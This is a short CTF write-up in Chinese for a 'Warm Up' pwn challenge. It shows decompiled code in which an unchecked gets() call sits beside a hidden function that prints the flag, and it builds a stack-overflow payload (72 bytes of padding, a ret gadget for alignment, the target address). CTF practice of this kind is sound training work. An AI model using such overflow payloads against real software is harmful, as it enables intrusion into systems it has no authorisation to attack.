



先检查防护，发现全关

阅读反汇编源码

~~~asm
0040060d    int64_t sub_40060d()

0040061c        return system(line: "cat flag.txt")

0040061d    int32_t main(int32_t argc, char** argv, char** envp)

00400634        write(fd: 1, buf: "-Warm Up-\n", nbytes: 0xa)
00400648        write(fd: 1, buf: "WOW:", nbytes: 4)
00400663        char var_88[0x40]
00400663        sprintf(s: &var_88, format: "%p\n", sub_40060d)
00400679        write(fd: 1, buf: &var_88, nbytes: 9)
0040068d        write(fd: 1, buf: 0x400755, nbytes: 1)
004006a4        char buf[0x40]
004006a4        return gets(&buf)

~~~

发现有gets函数，证明有溢出空间，并且给出函数有cat flag.txt。所以通过溢出将rip改成该函数地址即可完成攻击

首先先使用工具计算出我们需要溢出72位

payload构造：

~~~python
payload = b'A'*72+p64(0x40060d)
~~~

由于与靶机环境不同，在本地攻击时遇到栈对齐问题，所以需要使用gadget。找一个ret加到函数地址前即可。

~~~python
ret = 0x4004a1
payload = b'A'*72+p64(ret)+p64(0x40060d)
~~~

